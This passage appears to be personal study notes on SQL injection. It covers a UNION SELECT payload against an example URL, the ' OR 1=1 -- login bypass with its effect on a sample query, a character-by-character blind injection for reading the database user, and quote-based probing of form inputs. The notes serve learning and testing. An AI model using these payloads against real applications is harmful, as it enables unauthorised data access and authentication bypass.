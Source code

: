             # now pull info out through the union
            http://example.com/page.asp?id=1 UNION SELECT ALL USER,2,3--
            ```

        - blind: worst case, last resort

if foo.asp?id="4+1" works then you know you the DB is running query for you

some examples use --+ to do the same thing as --<WHITESPACE> when sending the
sql injeciton in the URL - why does this work? example used %20 initially but
that was stripped by browser

attacks

```
' OR 1=1 --
# this nullifies the WHERE clause in the query
# this can be used if the query is
"SELECT * from users WHERE username='#{username}' AND password='#{password}'"
"SELECT * from users WHERE username='joe' AND password='bloggs'" # legit usage
"SELECT * from users WHERE username='joe' AND password='' OR 1=1 --'" # any password works


# ###############################
# in this attach we are going to use a blind sqli to get the username of the current user in the DB
# it is blind sqli so we will never actually get the username back as a result
# we first have to determine that
# 1. this point is vulnerable to sqli
# 2. some way of figuring out whether the query we sent worked or not (i.e. a true/false test). We will use this true/false test to ask the DB questions and infer the answers

' OR ascii(substr(SELECT user(), 1, 1)) > 0 #
# 1. select the username
# 2. get the first char from it
# 3. convert that char to an int
# 4. comment out the rest of the query after that
# 5. compare the it with a chosen number - this step is repeated many times with differnt numbers an operators and the true/false results from the DB are noted. This takes ages so is often automated in a tool
```

## Understanding

Looking at the form input on the page, try to guess the shape of the SQL
statement it might generate .e.g if it is a search box then

```sql
SELECT ? FROM ? WHERE ? LIKE '%yourquery%';
```

seems reasonable. Now try things in `yourquery` which will give you info you
should not have e.g.

```slq
-- '
SELECT ? FROM ? WHERE ? LIKE '%'%';
-- A single quote character will tell you whether the query you send is being
-- escaped. If you get an error back indicating that the query did anything except
-- perform your query properly qouted e.g. threw an error then you know you are on
-- to something.

';--
SELECT ? FROM ? WHERE ? LIKE '%';--%';
-- If you think you have found an input which has not properly escaped the data
-- then this query should return all rows in the table

```
